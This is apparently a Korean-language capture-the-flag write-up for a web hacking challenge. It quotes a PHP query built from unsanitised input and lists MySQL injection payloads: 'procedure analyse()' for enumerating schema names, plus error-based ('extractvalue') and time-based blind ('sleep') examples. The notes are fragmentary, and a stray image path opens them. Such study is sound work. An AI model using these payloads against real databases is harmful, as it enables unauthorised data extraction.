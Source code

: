 "SELECT id, flag, score FROM chall55 WHERE score=score파라미터
mysqli_query($db,"insert into chall55 values('{$_SESSION['id']}','".trim($_POST['score'])."','{$flag}')");

score=1%20limit%200,%201%20procedure%20analyse()      webhacking.chall55.id
score=1%20limit%201,%202%20procedure%20analyse()      webhacking.chall55.score
score=1%20limit%202,%201%20procedure%20analyse()     webhacking.chall55.p4ssw0rd_1123581321
//그냥 53번 문제처럼 필요없는 거 치우고 answer이나 입력값 맞추는 거 찾아서 
이 내용 집어넣으면 정답 같은데?? 
53번을 자세히 보면 
mysqli_fetch_array(mysqli_query($db,"select a from $hidden_table where a={$_GET['val']}"))로 값을 받는다는 것을 
알 수 있다 (55번 쿼리와 흡사하다) 
val=1 procedure analyse();로 하면 숨겨진 테이블이 나오고 
if($_GET['answer'] == $hidden_table) solve(53);
여기 if문에 나온 것처럼 ?answer=에 숨겨진 테이블을 그대로 쳐주면 (webhackin이랑 a만 떼서) 
원하는 결과값이 나오는 것을 알 수 있다 (문제가 풀린다)   

가설 1 : insert 를 이용해서 (원하는 id, score, flag) 값을 차례대로 넣는다 
그 후에 select를 이용해서 특정한 score값을 그대로 쳐서 원하는 값을 뽑아낸다 
->이거랑 상관없이 테이블명을 알았으므로 left와 right를 이용해서 
브루트포싱하는 문제였다 

여기서 기본적인 input은 id, score, flag 이 세가지라고 할 수 있다 
id로는 기존에 있는 값을 넣어도 변화가 없다는 것을 알 수 있다 (결과값이 딱히 없다) 
score로 찾아야 된다는 건데(확실치는 않음?) 1123581321이 너무 score 같아서 
이 값을 넣었으나 별다른 값을 뱉어내지는 않았다 
id나 pw 혹은 flag로도 이리저리 가능한 조합을 모두 넣어보았으나 역시나 별다른 결과값이 나오지 않았다 

mysql> select id from test where no=1 limit 0,1 procedure analyse();   // 첫째 필드
mysql> select id from test where no=1 limit 1,1 procedure analyse();   // 둘째 필드
mysql> select id from test where no=1 limit 2,1 procedure analyse();   // 셋째 필드

Procedure analyse() 를 사용하여 쿼리 명령 시 DB명.테이블명.컬럼명 획득이 가능하다.
하지만, procedure analyse()라는 함수는 limit 절 뒤에 사용이 가능하다.
즉, limit 구문을 앞에 추가하여 필드를 차례로 뽑아내는 것이 가능하다는 이야기이다.

mysqli_query($db,"insert into chall55 values('{$_SESSION['id']}','".trim($_POST['score'])."','{$flag}')");

여기서, 추가적으로 extravalue() 함수를 사용하여 procedure() 함수 내에서 원하는 값을 뽑아낼 수 있다.

- error base

mysql > SELECT id FROM test WHERE id='admin' limit 0,1 procedure analyse(extractvalue(1, concat(0x3a, version())), 1);

ERROR 1105 (HY000): XPATH syntax error: ':5.1.41-community'



- blind

mysql > SELECT id FROM test WHERE id='admin' limit 0,1 procedure analyse(extractvalue(1, concat(0x3a, (if(mid(version(),1,1) like 5, sleep(5),1))), 1);

?score = p4ssw0rd_1123581321    ->       id : mpaljo112 // 0

?score=1123581321 limit 0,1 procedure analyse(extractvalue(1, concat(0x3a, version())), 1);

?score=2147483647 limit 0,1 procedure analyse(extractvalue(1, concat(0x3a, version())), 1);

('panda',%20'2378124',%20'chall55.p4ssw0rd_1123581321');   2378124

insert into chall55 values('panda',%20'2378124',%20'chall55.p4ssw0rd_1123581321');
